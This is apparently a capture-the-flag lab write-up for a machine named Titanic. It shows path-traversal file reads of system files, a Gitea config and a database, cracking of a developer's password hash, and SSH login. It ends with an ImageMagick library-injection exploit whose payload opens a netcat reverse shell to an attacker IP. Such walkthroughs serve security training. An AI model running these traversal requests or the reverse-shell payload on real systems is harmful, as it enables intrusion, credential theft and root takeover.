- Machine Name: Titanic
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

let’s start the enumeration from port 80 



looks like it allows only access from hostname let’s add entry in /etc/hosts file



refresh the web page


then we click on the Book ticket option and we found the form to book the ticket



inspecting the network tab we found two API calls one is /book and /download



the /download API looks interesting as it should be vulnerable to LFI, let’s keep this info in our back-pocket and move to further enumeration

check the web technology using whatweb

```bash
whatweb http://titanic.htb
```



let’s run the gobuster to fuzz for hidden files and directories

```bash
gobuster dir -u http://titanic.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -b 403,404
```



let’s check the /download endpoint



it shows ticket parameter is required

let’s specify the ticket parameter and see if we can get anything



it shows ticket not found, i tried basic SQLi but it is not vulnerable to SQL injection

let’s try to bruteforce subdomains using wfuzz

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://titanic.htb -H "Host: FUZZ.titanic.htb" --hw 28-
```

---

`--hw 28` : it excludes response that matches size 28 words



let’s add the .dev subdomain entry in /etc/hosts file



now let’s check if the endpoint is vulnerable to LFI i tried to download ../../../../../../../../etc/passwd file



yes, it is vulnerable to LFI but i didn’t find any SSH keys in 

checking the repositories in gitea panel



in docker-config i found the password of mysql user



let’s check the docker-compose.yml



we found the path of gitea configuration

download the configuration file:

[http://titanic.htb/download?ticket=../../../../../../../../../../../../home/developer/gitea/data/gitea/conf/app.ini](http://titanic.htb/download?ticket=../../../../../../../../../../../../home/developer/gitea/data/gitea/conf/app.ini)



it exposed the location of sqlite database, as we can download it let’s download and check if we can get credentials of the developer user

download database using [`http://titanic.htb/download?ticket=../../../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db`](http://titanic.htb/download?ticket=../../../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db) 

first rename the database using mv command and then use sqlite3 to open db file

```bash
sqlite3 gitea.db
```



run .tables command to get list of tables in database

i found interesting user table

```bash
select * from user;
```



now it is little messy we can get column names using below query

```bash
PRAGMA table_info(user);
```

i found the valid column names we need and select data from it

```bash
select name,salt,passwd from user;
```



i found the tool that convert this hash into hashcat crackable formathttps://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py

```bash
python gitea2hashcat.py "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"
```



copy and paste the file in developer.hash and use below hashcat tool to crack the hash

```bash
hashcat -m 10900 developer.hash /usr/share/wordlists/rockyou.txt
```



let’s ssh as developer user

```bash
ssh developer@10.10.11.55
```



upon enumerating the system i found identify_images.sh inside /otp/scripts directory



let’s read the contents of sh file



the script is running as root, possibly as cronjob 

let’s check the imageMagicks version



quick google search reveals that it it vulnerable to Arbritrary command execution → https://github.com/Dxsk/CVE-2024-41817-poc  and as the script is running as root we’ll get RCE as root

steps:

go to directory from where it is running magick binary /opt/app/static/images/ 

run following command

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("busybox nc 10.10.14.17 443 -e /bin/bash");
    exit(0);
}
EOF
```

make sure to change Ip and port based on your requirement, start netcat listener and wait for root to execute the bash file (every 1 minutes)

and you’ll get the shell as root

